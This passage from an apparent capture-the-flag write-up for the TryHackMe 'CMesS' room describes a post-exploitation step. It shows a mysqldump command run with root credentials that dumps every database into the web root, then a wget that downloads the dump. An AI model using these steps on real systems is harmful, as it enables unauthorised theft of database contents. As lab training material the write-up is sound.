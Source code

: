 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/CMesS/images/a10.png)

We can now login into MySQL database and dump the entire database:

`mysqldump -uroot -pr0otus3rpassw0rd --all-databases > /var/www/html/assets/databases.sql`

Now we can download the databases via `wget`:

```
┌──(root💀nam)-[~/ctf/thm/ctf/CMesS]
└─# wget http://cmess.thm/assets/databases.sql
```
